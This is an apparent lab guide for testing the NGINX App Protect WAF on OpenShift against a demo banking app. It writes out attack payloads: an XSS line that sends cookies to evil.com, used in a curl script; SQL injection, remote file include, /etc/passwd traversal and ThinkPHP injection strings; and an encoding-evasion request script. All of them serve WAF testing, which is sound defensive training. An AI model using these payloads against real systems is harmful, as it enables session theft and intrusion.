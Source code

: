 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Open the Arcadia Financial webpage in your browser.

[source,sh,role=execute]
----
echo "http://$nginx_ingress"
----

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,texinfo,subs="attributes"]
----
<html>
  <head><title>Request Rejected</title></head>
  <body>
    The requested URL was rejected. Please consult with your administrator.<br><br>
    Your support ID is: 2246109708976899297<br><br>
    <a href='javascript:history.back();'>[Go Back]</a>
  </body>
</html>
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:image19.png[image]


Congratulations on securing your application!


=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

Events are logged in the local syslog pod.

In the terminal window, copy the below text and press enter.

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----


Next, let's create an attack and then examine the logs.


We'll use this bash script to create the attack and then display the log.

[source,sh,role=execute]
----
cat << 'EOF' > check_waf.sh
#!/bin/bash

echo "Sending a malicious request to trigger App Protect..."
response=$(curl -sk "http://$nginx_ingress?item='><script>document.location='http://evil.com/steal'+document.cookie</script>")

echo "Full WAF response:"
echo "$response"

support_id=$(echo "$response" | grep -oP 'support ID is: \K[0-9]+')
echo "Captured Support ID: $support_id"

syslog_pod=$(oc get pods --no-headers | grep '^syslog-' | cut -d' ' -f1)
echo "Querying syslog pod $syslog_pod for WAF log entry..."

oc exec -it pod/$syslog_pod -- cat /var/log/messages | \
  grep "$support_id" | \
  sed -n 's/.*json_log="\({.*}\)".*/\1/p' | \
  sed 's/""/"/g' | jq .
EOF
----

Make the script executable and then run it.

[source,sh,role=execute]
----
chmod +x check_waf.sh && ./check_waf.sh
----

After running the `check_waf.sh` script, look at the parsed JSON and verify the following:

- `"id"`: This should match the support ID you received in the curl response.
- `"requestStatus": "blocked"`: Confirms the request was blocked by App Protect.
- `"attackType"`: Look for entries like `"Cross Site Scripting (XSS)"`, showing the attack was correctly classified.
- `"violation.name"`: Confirm detection of signatures such as `"VIOL_ATTACK_SIGNATURE"` or `"VIOL_PARAMETER_VALUE_METACHAR"`.
- `"signature.name"`: Example: `"XSS script tag (Parameter)"` shows the specific rule triggered.
- `"enforcementState.isBlocked": true`: Confirms blocking action was enforced.
- `"observedEntity.value"`: This may show a base64-encoded version of the payload that triggered the violation.


Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in OpenShift and how to use the NGINX App
Protect WAF to protect your applications from attacks.

## Optional Attacks

*Here are some optional attacks you can try*

== Optional Attack Payloads to Trigger App Protect

== Optional Attack Payloads to Trigger App Protect

Use these by appending them to the application URL (e.g., `http://$nginx_ingress/`):

*SQL Injection* +
`?hfsagrs=-1+UNION+SELECT+user,password+FROM+users--`

*Remote File Include (RFI)* +
`?hfsagrs=php://filter/resource=http://example.com/shell.txt`

*Command Execution* +
`?hfsagrs=/proc/self/environ`

*HTTP Parser Attack* +
`?XDEBUG_SESSION_START=phpstorm`

*Path Traversal (Predictable Resource Location)* +
`/lua/login.lua?referer=google.com/&hfsagrs=../../../../../../../../etc/passwd`

*Cross-Site Scripting (XSS)* +
`/lua/login.lua?referer=google.com/&hfsagrs="onmouseover=alert('XSS')"`

*Information Leakage Probe* +
`/lua/login.lua?referer=google.com/&hfsagrs=efw`

*Forced Browsing (Parser Attack)* +
`/dana-na/auth/url_default/welcome.cgi`

*ThinkPHP Code Injection* +
`/index.php?s=/Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP`

*Header-based XSS (via Cookie)* +
`Cookie: hfsagrs='"><script>alert("XSS")</script>'`



This bash script has a few more.

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,bash]
----
#!/bin/bash
echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"

# Send a request with multiple decoding
curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with Apache whitespace
curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with IIS backslashes
curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"

# Send a request with carriage return escaping
curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload
curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"
----